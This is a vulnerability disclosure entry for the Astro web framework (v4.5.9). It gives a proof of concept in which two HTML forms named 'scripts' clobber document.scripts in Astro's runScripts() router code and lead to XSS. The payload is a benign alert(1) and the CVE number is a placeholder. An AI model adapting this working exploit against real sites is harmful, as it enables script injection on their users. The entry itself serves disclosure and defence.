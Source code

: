 ## astro

### Meta

+ Library: astro
+ Stars: 45.7K
+ Version: v4.5.9
+ Payload: ```<form name="scripts">alert(1)</form><form name="scripts">alert(1)</form>```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://github.com/withastro/astro


### Vulnerable Code Snippet

```javascript
// https://github.com/withastro/astro/blob/7814a6cad15f06931f963580176d9b38aa7819f2/packages/astro/src/transitions/router.ts#L135-L156
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
```

### PoC
```html

<!--Library-->
<script>
function runScripts() {
	for (const script of Array.from(document.scripts)) {
		if (script.dataset.astroExec === '') continue;
		const type = script.getAttribute('type');
		if (type && type !== 'module' && type !== 'text/javascript') continue;
		const newScript = document.createElement('script');
		newScript.innerHTML = script.innerHTML;
		for (const attr of script.attributes) {
			newScript.setAttribute(attr.name, attr.value);
		}
		newScript.dataset.astroExec = '';
		script.replaceWith(newScript);
	}
}

runScripts();
</script>
<!--Library-->

<!--Payload-->
<form name="scripts">alert(1)</form>
<form name="scripts">alert(1)</form>
<!--Payload-->
```